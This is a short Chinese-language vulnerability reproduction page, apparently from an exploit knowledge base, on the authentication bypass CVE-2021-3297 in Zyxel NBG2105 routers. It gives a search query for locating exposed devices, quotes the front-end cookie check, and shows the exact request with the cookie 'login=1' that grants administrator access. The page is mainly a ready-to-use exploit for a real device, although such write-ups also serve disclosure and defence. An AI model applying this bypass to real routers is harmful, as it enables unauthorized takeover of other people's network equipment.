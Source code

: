 # Zyxel NBG2105 身份验证绕过 CVE-2021-3297

## 漏洞描述

Zyxel NBG2105 存在身份验证绕过，攻击者通过更改 login参数可用实现后台登陆

## 漏洞影响

<a-checkbox checked>Zyxel NBG2105</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="ZyXEL-NBG2105"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](../../../.vuepress/public/img/zyxel-5.png)



其中前端文件 **/js/util_gw.js** 存在前端对 Cookie login参数的校验



![img](../../../.vuepress/public/img/zyxel-6.png)



可以看到检测到 Cookie中的 **login=1** 则跳转 home.html



```plain
function setCookie() //login_ok.htm use
{
	document.cookie="login=1";
	MM_goToURL('parent', 'home.htm');
}
```



请求如下则会以管理员身份跳转到 **home.htm页面**



```plain
http://xxx.xxx.xxx.xxx/login_ok.htm

Cookie: login=1;
```



![img](../../../.vuepress/public/img/zyxel-7.png)



## 